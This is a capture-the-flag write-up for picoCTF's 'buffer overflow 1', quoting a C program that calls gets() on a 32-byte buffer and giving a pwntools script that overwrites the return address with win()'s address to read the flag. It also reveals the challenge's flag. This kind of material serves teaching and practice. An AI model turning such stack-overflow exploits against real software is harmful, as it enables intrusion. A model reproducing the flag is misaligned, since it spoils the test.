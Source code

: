 ![title](images/title.png)

![hint](images/hint.png)

Let's start by breaking down the source code.

## vuln.c

This section contains our buffer size that we will attempt to overflow and our win() function that we will direct the program to.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32 //our overflow size-ish
#define FLAGSIZE 64

void win() {	//the target return function
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```

This section contains the vuln() function that uses gets(buf) which is the vulnerability we will take advantage of. There is no check on the size of buffer the program is receiving so we should be able to fill it up enough to hit the return address on the stack then put the address of the win() function instead. That way when the program returns from vuln() it goes to win() instead of back to main.
```c
void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
Our strategy will work as follows

1. Find the buffer amount to control the return pointer (EIP)
2. Find the address of the win() function
3. Build a payload consisting of buffer+win function
4. Send payload

We will use pwntools to do most of the work and write a python script seen below to acquire the flag

```python
#!/usr/bin/env python

from pwn import *
import sys

argv = len(sys.argv)

#get win_addr
e = ELF('./vuln')
win = e.symbols['win']

#start process locally or remotely based on args given
if argv > 1:
	from getpass import getpass
	ssh = ssh(host='2018shell.picoctf.com', user='ems3t', password=getpass())
	p = ssh.process('vuln', cwd='/problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613')
else:
	p = process('./vuln')
'''
pwn cyclic 50 | strace ./vuln
pwn cyclic -l 0x6161616c
44
'''
#set buf amount
buf = 44 

#build payload
payload = ''
payload+= 'A'*buf
payload+=p32(win)

#send exploit and start interactive mode
p.sendline(payload)
p.interactive()
```

<details>
	<summary>Flag</summary>

picoCTF{addr3ss3s_ar3_3asy3656a9b3}
</details>